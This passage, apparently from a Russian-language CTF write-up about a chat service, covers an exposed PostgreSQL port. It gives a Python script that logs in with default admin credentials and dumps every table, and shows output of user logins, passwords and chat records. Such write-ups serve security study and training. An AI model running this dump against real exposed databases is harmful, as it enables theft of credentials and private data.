 Последнее сообщение `SSB3aWxsIGhhY2sgdSkK` (base64) эквивалентно `I will hack u)`

---

### Vuln 2: Открытый порт БД

Как было упомянуто ранее при описании данного сервиса, у БД есть открытый порт. Собственно, чем мы и воспользуемся, чтобы получить всю информаию из существующих таблиц:

```python
import psycopg2


# Подкючаемся к БД через открытый порт
conn = psycopg2.connect(database="db", user="admin", password="admin", host="localhost", port=5432)

# Создаем метку для обращения к БД
cursor = conn.cursor()

# Запрос для получения всех таблиц в БД
cursor.execute("SELECT relname FROM pg_class WHERE relkind='r' AND relname !~ '^(pg_|sql_)';")

# Результат сохраняем в переменную для удобства дальнейшего обращения
tables = cursor.fetchall()	# Формат [('table1',), ('table2',), ('table3',)] - обращение по tables[i][0]


# Пробегаемся по таблицам БД (получаем данные из них)
for i in range(len(tables)):
	# Получаем все данные из таблиц
	cursor.execute(f"SELECT * FROM {tables[i][0]}")

	# Получаем все поля таблиц
	colnames = [desc[0] for desc in cursor.description]

	print(f"[+] Database - {tables[i][0]}:")
	print(colnames)

	data = cursor.fetchall()
	print(data, "\n")

conn.close()
```

Результат работы эксплойта:

```python
$#> python skychat__open-port.py

[+] Database - users:
['id', 'login', 'password', 'is_admin']
[(1, 'test', 'test', False), (2, 'hacker', 'qwerty', False), (3, 'hacker123', 'qwerty123', False), (4, 'hacker2', 'qwerty', False), (5, 'enigma-e6b651753f22c50f', 'WGOKS0CPA6uv5kImgs5PCw==', False), (6, 'enigma-745d89e2a15e9390', 'o6mXRbl7wjeZ-OPusjnJvQ==', False)]

[+] Database - chats:
['id', 'user_id', 'is_deleted']
[(1, 1, False), (3, 3, False), (2, 2, True), (4, 2, True), (5, 2, False), (6, 4, False), (7, 5, False), (8, 6, False)]

[+] Database - messages:
['id', 'chat_id', 'text', 'direction']
```